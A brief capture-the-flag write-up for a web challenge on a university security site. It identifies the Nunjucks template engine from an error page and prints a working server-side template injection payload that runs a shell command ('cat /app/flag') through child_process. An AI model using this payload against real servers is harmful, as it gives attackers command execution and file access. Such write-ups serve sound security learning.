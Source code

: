 ### Chal Desc:
Watching the sunset with nunjucks to make sure your server side is always protected. The flag is on /app/flag.

URL: http://cybersecweek.ua.pt:2003/

Soln:  Classic SSTI attack 

If we apply different commands, we get an error page that tell us it’s nunjucks, so we have to use nunjucks SSTI.

{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat /app/flag')")()}}

